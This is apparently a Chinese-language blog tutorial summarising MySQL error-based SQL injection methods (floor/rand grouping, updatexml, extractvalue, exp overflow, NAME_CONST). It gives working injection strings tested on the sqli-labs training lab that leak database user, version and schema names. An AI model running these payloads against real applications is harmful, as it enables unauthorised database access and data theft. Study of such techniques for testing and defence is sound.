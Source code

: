 ```yaml
---
title: SQL报错注入总结
date: 2017-04-16 15:07:59
tags: 
- SQL注入
categories: 
- 漏洞

---
```



### 参考资料：

[http://www.waitalone.cn/mysql-error-based-injection.html](http://www.waitalone.cn/mysql-error-based-injection.html)
[http://www.111cn.net/database/mysql/47680.htm](http://www.111cn.net/database/mysql/47680.htm)


一些基本的查基本信息的语句：

查库 (select schema_name from information_schema.schemata limit m,n)

查表 (select table_name from information_schema.columns where table_schema=’whc’ limit 0,1)

查字段 (select column_name from information_schema.columns where table_schema=’whc’ limit 0,1)

加上limit 是因为sqllab里面限制了回显的个数，实战里面应该用不到。
<!--more-->


### 00x1 floor方式

**用法：**

```
select 1,count(*),concat(0x3a,0x3a,(select use()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;
```


**函数释义：**

> rand() 随机数函数 产生0-1的随机数
> count(_) 计数
> floor() 向下取整函数，舍去小数点，比如：floor(1.3)=1
> floor(rand()_2) 结果只有0和1
> group by name 按name的首位字典顺序排列
> concat() 连接括号里面的内容
> select 1 from (table name) 派生表

此处有三个点，一是需要count计数，二是floor，取得0 or 1，进行数据的重复，三是group by进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时重复造成的错误。也有解释为mysql 的bug 的问题。但是此处需要将rand(0)，rand()需要多试几次才行。

**在sqllab less-5上进行测试**

![](http://oohnuejim.bkt.clouddn.com/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A51.png)

这里只用user()来做实例，其他爆表，爆字段直接代替user()就行了

```
id=1' union select 1,count(*),concat(0x3a,0x3a,user(),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a --+
```

可以简化成这样

```
id=1' and  (select count(*) from information_schema.tables group by concat(0x3a,0x3a,version(),0x3a,0x3a,floor(rand(0)*2))) --+
```

也可以改成这样

```
id=1' and  (select 1 from (select count(*),(concat(0x3a,user(),0x3a,floor(rand()*2)))name from information_schema.tables group by name)b --+
```

语句分解：

> (select 1 from b) //在b上做派生表
> b=select count(_),name from information_schema.tables group by name //从information_schema里面选取那么的内容和计数的内容
> name=concat(0x3a,(查询内容),0x3a,floor(rand()_2)) //把:和查询内容，还有随机取整数 连接在一起

具体为什么count(_),floor(rand(0)_2) group by 会报错，必须说这三个元素必须全部放在一个语句里才能报错。
http://mp.weixin.qq.com/s__biz=MzA5NDY0OTQ0Mw==&mid=403404979&idx=1&sn=27d10b6da357d72304086311cefd573e&scene=1&srcid=04131X3lQlrDMYOCntCqWf6n#wechat_redirect

*   解释下 select 1 from table

它的作用就是 增加临时列，每行的列值是写在select后的数，这条sql语句中是1
![](http://oohnuejim.bkt.clouddn.com/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A52%20.png)


*   rand(0) rand(1)和rand()的区别
![](http://oohnuejim.bkt.clouddn.com/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5rand%EF%BC%88%EF%BC%89.png)
![](http://oohnuejim.bkt.clouddn.com/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5rand%EF%BC%881%EF%BC%89.png)
![](http://oohnuejim.bkt.clouddn.com/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5rand%EF%BC%880%EF%BC%89.png)

rand()会随机报错，就是有可能报错，有的时候不会，rand(0)肯定会报错，rand(1)则一定不会报错。
所以要让他报错的话直接用rand(0)





### 00x2 xpath函数

如果细究这个会浪费很多时间，而且我目前没怎么接触过XML，所以就简略地介绍下这个函数的用法了。
想了解的可以多搜索一些关于xpath注入，这也是sql注入的额一种趋势吧。


*   updatexml()  最多爆出32位的

函数原型：
```
updatexml(xml_target, xpath_expr, new_xml)
```

第一个参数是目标xml，第二个参数是xpath表达式，第三个参数替换目标xml的新的xml。注入中只关心第二个参数就够了。（XPath 是一门在 XML（可扩展标记语言）文档中查找信息的语言。）

用法：
```
updatexml(1,concat(0x3a,(查询内容),0x3a),1)
```

在MySQL控制台里面实测下

![](http://oohnuejim.bkt.clouddn.com/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5updatexml.png)

*   extractvalue()  最多爆出32位的

extractvalue方式与updatexml类似，只是extractvalue()中少了第三个参数

用法：

```
extractvalue(1, concat(0x3a, (查询内容),0x3a))
```

在MySQL里实测下
![](http://oohnuejim.bkt.clouddn.com/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5extract.png)  

注意几点，语句出错，想了半天没想明白怎么回事。是union语句连接2个语句的时候，2条语句所在的表形式不同所以返回不了。  
![](http://ww4.sinaimg.cn/large/006HJ39wgy1fffdiqh36vj318u0dkajc.jpg)  
![](http://ww4.sinaimg.cn/large/006HJ39wgy1fffdk4awm6j31830dbk0l.jpg)

### 00x3 值类型超出范围导致报错

在MySQL版本大于等于5.5.5的的时候才能用户

*   double型函数exp()超出范围

这个函数为以e为底的对数函数

用法：

```
select exp(~(select*from(select user())x))
```

报错具体原理http://www.cnblogs.com/lcamry/articles/5509124.html

![](http://oohnuejim.bkt.clouddn.com/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5~exp.png)

*   bigint超出范围

具体原理[http://www.cnblogs.com/lcamry/articles/5509112.html](http://www.cnblogs.com/lcamry/articles/5509112.html)
跟上面的差不多。


### 00x4 利用数据重复性

用法：
```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x
```
这里的version()出现了2次，所以报错。

![](http://oohnuejim.bkt.clouddn.com/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%20%E6%95%B0%E6%8D%AE%E9%87%8D%E5%A4%8D.png)